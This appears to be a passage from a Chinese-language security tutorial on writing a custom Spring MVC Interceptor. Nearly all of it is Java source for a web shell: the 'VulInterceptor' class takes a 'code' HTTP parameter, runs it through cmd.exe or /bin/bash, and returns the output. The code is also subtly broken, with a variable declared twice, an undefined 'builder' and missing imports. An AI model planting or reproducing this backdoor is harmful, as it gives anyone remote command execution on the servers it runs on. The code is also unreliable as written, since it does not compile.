     

### 0x0402 **编写自定义的`Interceptor`**

    
    
      
    package com.evalshell.springboot.interceptor;  
      
    import org.springframework.web.servlet.HandlerInterceptor;  
    import org.springframework.web.servlet.ModelAndView;  
      
    import javax.servlet.http.HttpServletRequest;  
    import javax.servlet.http.HttpServletResponse;  
      
    public class VulInterceptor implements HandlerInterceptor {  
        @Override  
        public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {  
            String code = request.getParameter("code");  
            if(code != null){  
                try {  
                    java.io.PrintWriter writer = response.getWriter();  
                    ProcessBuilder p;  
                    if(System.getProperty("os.name").toLowerCase().contains("win")){  
                        p = new ProcessBuilder(new String[]{"cmd.exe", "/c", code});  
                    }else{  
                        System.out.println(code);  
                        p = new ProcessBuilder(new String[]{"/bin/bash", "-c", code});  
                    }  
                    builder.redirectErrorStream(true);  
                    Process p = builder.start();  
                    BufferedReader r = new BufferedReader(new InputStreamReader(p.getInputStream()));  
                    String result = r.readLine();  
                    System.out.println(result);  
                    writer.println(result);  
                    writer.flush();  
                    writer.close();  
                }catch (Exception e){  
                }  
                return false;  
            }  
            return true;  
        }  
      
        @Override  
        public void postHandle(HttpServletRequest request, HttpServletResponse response, Object handler, ModelAndView modelAndView) throws Exception {  
            HandlerInterceptor.super.postHandle(request, response, handler, modelAndView);  
        }  
      
        @Override  
        public void afterCompletion(HttpServletRequest request, HttpServletResponse response, Object handler, Exception ex) throws Exception {  
            HandlerInterceptor.super.afterCompletion(request, response, handler, ex);  
        }  
    }  
      